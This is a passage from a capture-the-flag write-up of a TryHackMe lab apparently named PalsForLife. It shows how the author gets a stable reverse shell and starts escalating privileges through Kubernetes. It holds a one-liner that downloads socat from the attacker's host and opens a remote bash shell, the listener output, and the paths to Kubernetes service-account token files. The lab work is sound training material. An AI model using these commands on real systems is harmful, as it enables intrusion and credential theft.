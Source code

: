 ```
       valid_lft forever preferred_lft forever
```

I'm user `git` now!

**Stable shell via `socat`:**
```
┌──(root💀siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80

bash-4.4$ wget http://10.18.61.134/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.18.61.134:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/09/03 03:14:19 socat[42308] N opening character device "/dev/pts/2" for reading and writing
2022/09/03 03:14:19 socat[42308] N listening on AF=2 0.0.0.0:4444
                                                                 2022/09/03 03:14:23 socat[42308] N accepting connection from AF=2 10.10.208.216:33056 on AF=2 10.18.61.134:4444
                                                      2022/09/03 03:14:23 socat[42308] N starting data transfer loop with FDs [5,5] and [7,7]
                    bash-4.4$ 
bash-4.4$ stty rows 22 columns 121
bash-4.4$ export TERM=xterm-256color
bash-4.4$ ^C
```

**flag2.txt:**
```
bash-4.4$ find / -type f -name "flag*.txt" 2>/dev/null
/root/..2021_05_31_22_01_32.228018415/flag2.txt

bash-4.4$ cat "/root/..2021_05_31_22_01_32.228018415/flag2.txt"
flag{Redacted}
```

# Privilege Escalation

## git to root

Since we inside the machine, we can now abuse kubernetes.

**Service Account Tokens:**

`ServiceAccount` is an object managed by Kubernetes and used to provide an identity for processes that run in a pod.

Every service account has a secret related to it and this secret contains a bearer token. This is a JSON Web Token (JWT), a method for representing claims securely between two parties.

Usually one of the directories:

- /run/secrets/kubernetes.io/serviceaccount
- /var/run/secrets/kubernetes.io/serviceaccount
- /secrets/kubernetes.io/serviceaccount
